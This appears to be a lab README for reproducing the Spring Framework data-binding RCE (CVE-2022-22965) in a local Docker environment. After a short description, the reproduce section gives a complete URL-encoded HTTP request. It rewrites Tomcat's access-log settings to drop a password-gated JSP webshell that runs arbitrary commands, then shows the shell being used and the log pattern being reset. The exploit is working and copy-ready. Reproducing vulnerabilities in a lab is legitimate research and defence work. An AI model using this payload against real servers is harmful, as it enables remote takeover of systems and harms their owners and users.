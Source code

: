 # Spring Framework Data Binding Remote Code Execution on JDK 9+ (CVE-2022-22965)

A Spring MVC or Spring WebFlux application running on JDK 9+ may be vulnerable to remote code execution (RCE) via data binding. The specific exploit requires the application to run on Tomcat as a WAR deployment. If the application is deployed as a Spring Boot executable jar, i.e. the default, it is not vulnerable to the exploit. However, the nature of the vulnerability is more general, and there may be other ways to exploit it.

References:

- <https://tanzu.vmware.com/security/cve-2022-22965>
- <https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/>

## Vulnerability Environment

Execute the following command to start a server that uses Spring WebMVC 5.3.17:

```
docker compose up -d
```

After server is started, browse the `http://your-ip:8080/?name=Bob&age=25` to see an example page.

## Vulnerability Reproduce

Send the following request to change the logging configuration in Apache Tomcat and write the log as a JSP file:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

![](1.png)

Then, you can use the JSP webshell to execute arbitrary commands successfully:

```
http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=id
```

![](2.png)

Noted that you should clear the `class.module.classLoader.resources.context.parent.pipeline.first.pattern` if you don't want the JSP webshell to be large, because every request logging will be written into that file. Send following request to clear the attribute:

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```
